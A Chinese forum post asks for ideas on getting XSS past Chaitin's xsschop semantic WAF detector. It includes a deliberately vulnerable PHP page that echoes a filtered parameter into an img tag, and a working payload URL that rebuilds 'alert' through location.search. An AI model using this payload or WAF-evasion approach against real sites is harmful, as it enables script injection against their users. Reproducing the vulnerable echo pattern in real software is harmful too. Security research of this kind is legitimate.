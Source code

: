 ### 前言
`xsschop 长亭`是唯一一家正式在WAF产品中使用语义分析方法来进行 XSS 检测的。

具体看下文：
http://vlambda.com/wz_5kn0huYjduP.html

### 菜鸡的尝试
尝试手动正面刚xsschop，让我绝望，然后我就在想在特定情况下，我尝试能不能弹一下。

首先，我这里直接拿了P牛`"利用location来变形我们的XSS Payload"`文章中的测试代码，输出点在`<img src="这里">`

```php
<?php
header('X-XSS-Protection: 0');
$xss = isset($_GET['xss'])?$_GET['xss']:'';
$xss = str_replace(array("(",")","&","\\","<",">","'","`"), '', $xss);
echo "<img src=\"{$xss}\">";
?>
```

这段时间看了乌云知识库，在文章`"XSS挑战第一期Writeup"`了解到了这种姿势，即把()放在url查询部分，定义a变量赋值为location.search，再用location.search以数组键名索引的方式取回来()。
```
http://localhost/2.php?()&xss=" onerror=a=location.search;location="javascript:a"%2b"lert"%2ba[1]%2ba[2] "
```
![1](https://i.loli.net/2019/04/27/5cc45cd3a41fa.png)

但是放到xsschop检测时，可以看见前面缺少一个双引号闭合，因为前面的双引号一加，等级 Risk: High ，而且+不能url编码。

![2](https://i.loli.net/2019/04/27/5cc45d3991829.png)

真心给跪了，我主要想问下思路，也不需要大佬直接贴payload，那样可能凉的更快，主要是交流下。
